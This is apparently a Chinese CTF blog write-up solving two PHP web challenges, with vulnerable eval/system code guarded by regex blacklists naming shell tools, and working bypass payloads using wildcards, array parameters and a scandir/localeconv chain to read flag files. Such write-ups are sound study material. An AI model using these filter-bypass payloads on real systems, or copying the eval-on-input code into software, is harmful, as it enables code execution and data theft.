 ```yaml
---
layout:    post
title:     第二周
subtitle:  学习学习
date:      2021-07-26
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:
    - CTF
---
```


### web02

```PHP
 <?php
#-*-coding: utf-8 -*-
//flag in show_flag.php
if(isset($_POST['a'])){
    $a=$_POST['a'];
    if (!(preg_match("/[0-9]|\.|data|phar|glob|\*|system|shell_exec|shell|php|\`/i", $a))) {
        eval($a);
    }
}else{
    highlight_file(__FILE__);
}

?> 
```

用``?``去匹配：

```
a=passthru%28"cat ?????????????"%29%3B
```

[![WhpfV1.png](https://z3.ax1x.com/2021/07/26/WhpfV1.png)](https://imgtu.com/i/WhpfV1)

查看源码，得到：

```
<?php
error_reporting(0);
class FLAG {
    static function printflag()
    {
        include('flag.php');
        highlight_file('flag.php');
    }
}
if(isset($_GET['zz'])){
    $z=$_GET['zz'];
    if(@stripos($z,':')>1){
        die('hacker!');
    }
    @call_user_func($z);
}
```

可以采用数组的方式绕过对``:``的判断。

payload：``show_flag.php?zz[0]=FLAG&zz[1]=printflag``。

得到字符串，先HTML实体解码，再base64解码，得到flag。

### web05

进入后先随便get传参c一个数，得到：

```
flag is in flag.php ?c=1 <?php
echo "flag is in flag.php  ?c=";
$c=$_GET['c'];
echo "$c"."\n";
echo "\n";


if(!preg_match("/\{|\}|.*t.*a.*c|.*l.*s.*|.*p.*a.*s.*t.e.*|.*m.*v|\;|.*c.*a.*t.*|.*f.*l.*a.*g.*|[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\<|\||\*|\(|\)/i", $c)){
            system($c);
} else{
        highlight_file(__FILE__);
}

?>
```

发现过滤的很全面，但还是有漏掉的，使用``grep ????.php``去搜索文件，得到:

[![Wh9ooq.png](https://z3.ax1x.com/2021/07/26/Wh9ooq.png)](https://imgtu.com/i/Wh9ooq)

访问aGho.php:

```

<?php


if(isset($_GET['c'])){
        $c = $_GET['c'];
            if(!preg_match("/\`|\<|\>|\*|\"|\?|%|sess.*|eval|flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
                    eval($c);
                    }
            
}else{
        highlight_file(__FILE__);
}




?>
```

先使用未过滤的函数查看当前文件：``aGho.php?c=passthru(ls);``

[![WhCCY6.png](https://z3.ax1x.com/2021/07/26/WhCCY6.png)](https://imgtu.com/i/WhCCY6)

得到文件，当时就没有想到。

之后确实是和一个无参获取一样。发现文件只有huhuhu.php没有访问过，可以猜测flag在huhuhu.php中，且其位置也是在倒数第二，所以构造payload：

```
aGho.php?c=highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

得到flag。